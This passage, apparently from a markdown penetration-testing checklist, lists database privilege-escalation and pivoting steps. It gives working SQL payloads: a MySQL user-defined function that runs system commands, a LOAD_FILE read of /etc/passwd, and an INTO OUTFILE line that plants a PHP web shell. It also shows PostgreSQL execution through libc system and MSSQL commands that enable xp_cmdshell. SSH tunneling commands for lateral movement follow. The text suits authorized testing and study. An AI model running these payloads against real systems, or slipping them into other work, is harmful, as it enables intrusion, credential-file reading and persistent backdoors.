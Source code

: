 ##### DLL Hijacking
- [ ] **Check for Missing DLLs**:
  ```cmd
  # Use Process Monitor or PowerUp
  ```

### Database Privilege Escalation

#### MySQL
- [ ] **User-Defined Functions**:
  ```sql
  SELECT * FROM mysql.func;
  CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys.so';
  SELECT sys_exec('id');
  ```
- [ ] **File Operations**:
  ```sql
  SELECT LOAD_FILE('/etc/passwd');
  SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
  ```

#### PostgreSQL
- [ ] **Command Execution**:
  ```sql
  CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
  SELECT system('id');
  ```

#### MSSQL
- [ ] **xp_cmdshell**:
  ```sql
  EXEC sp_configure 'show advanced options', 1;
  RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell', 1;
  RECONFIGURE;
  EXEC xp_cmdshell 'whoami';
  ```

---

## 🔄 Phase 6: Advanced Lateral Movement & Persistence

### Network Pivoting

#### SSH Tunneling
- [ ] **Local Port Forwarding**:
  ```bash
  ssh -L <local_port>:<target_host>:<target_port> user@<pivot_host>
  ```
- [ ] **Dynamic Port Forwarding (SOCKS)**:
  ```bash
  ssh -D 8080 user@<pivot_host>
  # Configure proxychains: socks4 127.0.0.1 8080
  ```
- [ ] **Remote Port Forwarding**:
  ```bash
  ssh -R <remote_port>:<local_host>:<local_port> user@<pivot_host>
  ```
